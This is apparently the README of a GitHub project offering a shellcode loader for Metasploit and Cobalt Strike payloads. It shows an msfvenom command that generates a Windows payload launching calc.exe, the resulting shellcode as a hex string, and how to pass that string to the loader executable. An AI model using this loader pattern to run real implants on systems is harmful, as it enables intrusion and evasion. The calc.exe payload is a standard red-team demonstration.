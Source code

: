 # ShellCode-Loader
## ShellCode Loader for MSF and Cobalt Strike 

#####

```msfvenom -p windows/exec CMD=calc.exe -f c```

shellcode：
bf6e4a2508d9ebd97424f45d33c9b131317d13037d1383c56aa8d0f49aae1b055acf92e06bcfc161dbff8224d774c6dc6cf8cfd3c5b729ddd6e40a7c54f75e5e6538939fa2255ecd7b21cde2087fce894291566d1290772029cb57c2fe67dedce342a857d7392bbe26c180ff8730d8382fabaf304c56a8862f8c3d1d9747e5f9268b70892460f6d52877db6d54fcdaa1dd46f965861d603f62f39d5fcdac3b2be3b93176693fc70cdf3fd70e4f28e685002ff74f65cf155a9378800f1ee533fa5c10b00f1ce7a86519a36e9553bc1a99c0bd0efa872dd2d322d6712c

```shellcode_Argv.exe```

```bf6e4a2508d9ebd97424f45d33c9b131317d13037d1383c56aa8d0f49aae1b055acf92e06bcfc161dbff8224d774c6dc6cf8cfd3c5b729ddd6e40a7c54f75e5e6538939fa2255ecd7b21cde2087fce894291566d1290772029cb57c2fe67dedce342a857d7392bbe26c180ff8730d8382fabaf304c56a8862f8c3d1d9747e5f9268b70892460f6d52877db6d54fcdaa1dd46f965861d603f62f39d5fcdac3b2be3b93176693fc70cdf3fd70e4f28e685002ff74f65cf155a9378800f1ee533fa5c10b00f1ce7a86519a36e9553bc1a99c0bd0efa872dd2d322d6712c```

![calc](https://github.com/LDrakura/ShellCode-Loader/blob/master/calc.png)

# 2021-01-31

- bug fixed 
- add x64 release
